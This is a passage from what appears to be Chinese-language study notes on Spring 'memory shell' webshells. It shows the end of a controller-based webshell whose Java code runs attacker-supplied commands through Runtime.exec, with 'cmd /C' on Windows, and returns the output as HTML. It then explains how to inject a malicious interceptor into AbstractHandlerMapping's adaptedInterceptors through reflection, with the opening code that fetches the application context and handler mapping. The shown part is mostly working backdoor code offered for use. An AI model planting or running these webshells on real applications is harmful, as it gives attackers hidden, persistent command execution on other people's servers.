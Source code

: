 ```java
            boolean isWin = false;
            BufferedReader bufferedReader;
            if (os != null && os.toLowerCase().startsWith("windows")) {
                isWin = true;
            }
            try {
                if (isWin == false) {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
                } else {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
                }

                String len;
                while ((len = bufferedReader.readLine()) != null) {
                    res.append(len + "\n");
                }

            } catch (Exception e) {
                res.append(e.getMessage());

            }
            return "<pre>" + res.toString() + "</pre>";

        }
    }
}
```

至此,controller类型的内存马算是做了初步了解

## Inteceptor内存马

学习完controller内存马之后,就对spring基础的方法注册流程有了一个了解

`AbstractHandlerMapping#adaptedInterceptors`中存储了HandlerInterceptor

![image-20220422121240656](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220422121240656.png)

所以流程就很清晰了,首先获取到`AbstractHandlerMapping`,然后通过反射获取到`adaptedInterceptors`列表,往里面添加写好的恶意`interceptor`即可

`AbstractHandlerMapping`的运行类还是`RequestMappingHandlerMapping`,所以getBean的时候还是填`RequestMappingHandlerMapping.class`

```java
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        AbstractHandlerMapping abstractHandlerMapping = (AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);

```

